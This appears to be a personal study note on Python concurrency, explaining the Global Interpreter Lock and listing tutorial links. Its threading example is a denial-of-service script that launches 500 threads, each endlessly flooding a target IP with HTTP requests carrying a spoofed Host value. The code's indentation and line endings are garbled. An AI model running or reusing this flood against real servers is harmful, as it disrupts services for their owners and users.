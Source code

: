 # Concurrency

Created: 2018-05-21 13:44:24 +0500

Modified: 2022-05-13 15:19:51 +0500

---

**Global Interpreter Lock (GIL)**

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.



This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.



Solution -
-   Run multiple Python instances



**References**

<https://wiki.python.org/moin/GlobalInterpreterLock>

<https://pybay.com/site_media/slides/raymond2017-keynote/index.html>

[Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)

<https://realpython.com/python-concurrency

<https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python>

<https://www.tutorialspoint.com/concurrency_in_python/index.htm>

[**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)

[Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++



**MultiThreading**

import threading

import socket



target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'



def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()



for i in range(500):

thread = threading.Thread(target=attack)

thread.start()



<https://bovage.hashnode.dev/what-exactly-is-multithreading>
